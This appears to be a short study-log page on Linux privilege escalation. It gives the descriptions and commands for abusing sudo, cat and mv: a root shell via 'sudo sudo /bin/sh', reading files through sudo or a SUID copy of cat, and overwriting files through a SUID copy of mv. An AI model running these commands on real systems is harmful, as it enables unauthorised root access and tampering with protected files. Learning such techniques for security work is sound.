 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

    sudo install -m =xs $(which mv) .

    LFILE=file_to_write
    TF=$(mktemp)
    echo "DATA" > $TF
    ./mv $TF $LFILE
   </br>
   </br>

